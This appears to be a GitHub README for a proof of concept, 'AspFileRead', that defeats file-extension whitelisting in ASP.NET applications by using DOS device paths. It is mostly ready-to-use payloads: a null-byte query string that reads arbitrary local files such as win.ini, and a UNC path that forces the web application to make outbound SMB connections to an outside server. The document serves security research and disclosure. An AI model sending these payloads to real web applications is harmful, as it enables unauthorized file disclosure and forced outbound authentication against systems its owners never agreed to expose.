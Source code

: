 ﻿# AspFileRead POC

A poc to bypass whitelisting of file extensions in asp.net.

By using DOS device paths https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#dos-device-paths, it is possible to read arbitrary files on the local file system.

## Example payloads

- `?file=\\?\c:\windows\win.ini%00`	# will read any file and due to the DOS device path enable the null character termination and bypass the `.md` file extension limitation.

![image](img/local.png)

## Making outbound SMB  connections 

It is also possible to trigger the web application to make outgoing smb-calls vy using payloads such as:

- `\\.\UNC\server\share\file`	# will read `file.md` from the server share

![image](img/smb.png)
